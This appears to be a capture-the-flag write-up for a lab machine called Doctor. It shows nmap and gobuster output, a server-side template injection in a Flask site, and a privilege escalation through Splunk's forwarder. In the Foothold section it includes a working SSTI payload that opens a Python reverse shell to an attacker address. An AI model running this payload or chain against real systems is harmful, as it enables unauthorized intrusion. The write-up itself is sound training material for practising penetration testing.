







# Laboratory
## Enumeration
- ```Nmap```
```
└─$ nmap -Pn -sC -sV 10.10.10.209 -T4
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 19:08 BST
Nmap scan report for 10.10.10.209 (10.10.10.209)
Host is up (0.11s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 594d4ec2d8cfda9da8c8d0fd99a84617 (RSA)
|   256 7ff3dcfb2dafcbff9934ace0f8001e47 (ECDSA)
|_  256 530e966b9ce9c1a170516c2dce7b43e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
|_http-server-header: Splunkd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: splunkd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.13 seconds

```
- Web Server


- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.209 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 --no-error -x php,txt 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.209
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/07/06 19:11:54 Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 277]
/images               (Status: 301) [Size: 313] [--> http://10.10.10.209/images/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.10.209/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.10.209/js/]
/fonts                (Status: 301) [Size: 312] [--> http://10.10.10.209/fonts/]
/.php                 (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]

```

- We have `Splunk` on port `8089`


## Foothold
- We have an email `info@doctors.htb`
  - If we add `doctors.htb` to `/etc/hosts` file and visit it, we are redirected to `/login?next=%2F`
  - Which is served under `Werkzeug/1.0.1 Python/3.8.2`




- We can create an account and check what's inside
  - We can create posts
  - If we check the source, we have `/archive`







- I tested for `sqli` but found nothing
  - We might have [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection), so let's test it
  - I started with basic payloads from the post
  - There was nothing on the `post` page, but if we visit `/archive` page we see the results





- Let's get reverse shell
  - I used payload from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-popen-without-guessing-the-offset)
    - `{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"10.10.16.12\",6666)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}`
  - Launch a listener, create a new post and visit the `/archive`


## User
- Let's run `linpeas`
  - We find an interesting entry in logs `POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password`
  - It happens to be `shaun`'s password
  



## Root
- `linpeas` found nothing
  - Then I started enumerating `splunk`
    - `searchsploit` has nothing 
  - Found an interesting repo [SplunkWhisperer2s](https://github.com/cnotin/SplunkWhisperer2)
  - Let's test it


- Well, it works
  - Let's get our root

